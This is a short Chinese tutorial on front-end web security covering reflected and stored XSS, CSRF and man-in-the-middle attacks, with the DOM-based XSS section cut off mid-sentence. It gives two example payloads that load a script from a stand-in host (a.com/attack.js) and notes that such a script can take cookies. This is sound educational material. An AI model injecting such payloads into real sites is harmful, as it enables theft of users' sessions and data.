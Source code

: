 # 前端安全

## 1. XSS （跨站脚本攻击）

攻击者利用网站漏洞将代码注入到其他用户浏览器

### 1.1 反射型（非持久性）

攻击者通过在 `URL` 插入恶意代码，其他用户访问该恶意链接时，服务端在 `URL` 取出恶意代码后拼接至 `HTML` 中返回给用户浏览器

- 通过 `URL` 插入恶意代码
- 有服务端参与
- 需要用户访问特定链接

举个栗子：
攻击者诱导被害者打开链接`olumel.top?name=<script src="http://a.com/attack.js"/>`, 如果未经处理直接把 `name` 字段拼接到前端模板中，就在被害者不知情的情况下执行了攻击者注入的脚本（可以通过此方式获取`Cookie`等信息）

### 1.2 存储型（持久性）

攻击者将注入型脚本提交到被攻击的数据库中，这样其他用户浏览数据时，就可以获取到服务器返回的注入脚本并执行

- 恶意代码存储在服务器中
- 有服务端参与
- 只要用户访问了被注入恶意脚本的地址就会被攻击

举个栗子：
攻击者在目标留言板中提交了`<script src="http://a.com/attack.js"/>`,目标网站服务端未经转义存储了恶意代码，前端请求到数据后直接通过`innerHTML`渲染到页面中，其他用户访问留言数据时，就会自动执行恶意脚本

### 1.3 DOM 型

攻击者通过在 URL 

## 2. CSRF （跨站请求伪造）

攻击者可以在用户不知情的情况下，窃用其身份在对应的网站进行操作

## 3. 中间人攻击（MITM）

攻击者与通讯的两端分别创建独立的联系，在通讯中充当一个中间人角色对数据进行监听、拦截甚至篡改
